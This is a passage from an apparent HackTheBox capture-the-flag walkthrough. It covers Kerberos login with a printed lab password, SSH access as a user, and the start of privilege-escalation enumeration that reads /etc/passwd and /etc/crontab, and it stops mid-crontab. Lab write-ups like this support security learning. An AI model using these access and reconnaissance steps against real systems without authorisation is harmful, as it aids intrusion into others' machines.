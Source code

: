 Now we should run kinit with our user.

```bash
root@darkness:~# kinit j.nakazawa
Password for j.nakazawa@REALCORP.HTB: sJB}RM>6Z~64_
```

If we are successful, we should see a ticket in the cache, if we run `klist`.

```bash
root@darkness:~# klist
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: j.nakazawa@REALCORP.HTB

Valid starting       Expires              Service principal
02/23/2021 20:47:48  02/24/2021 20:41:46  krbtgt/REALCORP.HTB@REALCORP.HTB
```

We indeed get a valid ticket that should allow us to SSH into the machine.

#### SSH using Kerberos

We should now be able to SSH as the user.

```bash
root@darkness:~# ssh -K j.nakazawa@10.10.10.224
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Thu Dec 24 06:02:06 2020 from 10.10.14.2
[j.nakazawa@srv01 ~]$
```

We successfully SSH into the machine and can now read user.txt.

```bash
[j.nakazawa@srv01 ~]$ cat user.txt 
69883***************************
```

## Privesc - Root

Now that we have user, let us enumerate the system to find a privesc-vector to root.

### Enumeration as user

Let us see which users are on the system.

```bash
[j.nakazawa@srv01 ~]$ cat /etc/passwd | grep "/bin/.*sh"
root:x:0:0:root:/root:/bin/bash
j.nakazawa:x:1000:1000::/home/j.nakazawa:/bin/bash
admin:x:1011:1011::/home/admin:/bin/bash
```

Admin seems like an interesting target... Let us try to find a way to privesc to admin.

Looking at the cronjobs, it seems like the admin user is running a script every minute:

```bash
[j.nakazawa@srv01 ~]$ cat /etc/crontab 
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
```